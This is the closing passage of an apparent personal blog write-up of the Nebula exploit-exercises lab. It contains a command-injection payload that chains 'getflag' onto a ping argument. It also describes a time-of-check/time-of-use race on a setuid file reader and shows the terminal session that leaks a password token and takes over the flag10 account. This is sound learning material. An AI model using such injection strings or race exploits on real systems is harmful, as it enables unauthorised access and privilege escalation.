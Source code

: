 ```@output = `ping -c 3 x || getflag 2>&1```. Because `ping -c 3 x`

Because the client checks if we have sufficient privileges to open a
file (line number **55** in *basic.c*) and *later* checks if we have
sufficient privileges to read from a file; We can do <del>dirty</del>
things to that file in between those steps.

I'm pretty sure there is some fancy name for this.

With our code in place, it's just a matter of running
the command & hope we didn't screw up.

~~~
$ /home/flag10/flag10 /tmp/flag10_test 127.0.0.1
Connecting to 127.0.0.1:18211 .. Connected!
Sending file .. wrote file!

# On the tty running socketListener.py
$ python ./socketListener.py
ACCP 2015-05-13 13:14:40.194645
RECV 2015-05-13 13:14:40.197736
<type 'str'>
('buffer:', '.oO Oo.\n615a2ce1-b2b5-4c76-8eed-8aa5c4015c27\n')

$ su - flag10
Password:
flag10@bebula:~ $ getflag
You have successfully executed getflag on a target account
~~~

![We did it]({{ site-url }}/assets/post_images/bd_cat.jpg)

* * *

**And there you have it!** - The first 11 levels of exploit exercises
and how I solved them. I've been unable to solve
[level11](https://exploit-exercises.com/nebula/level11/) - So this
is it for now, I'll post more on the exercises when I actually progress.
I've had a lot of fun scratching my head & coming up with solutions in these
challenges & I'll definitely look out similar things. In fact, if you know
of any similar project, please tell me!

If you would like to point out an error (spelling or factual), feel
free to send me a email or tweet at me somehow & I'll gladly correct
the post (contact information is located at the bottom of the page ;)

Thank you for reading!
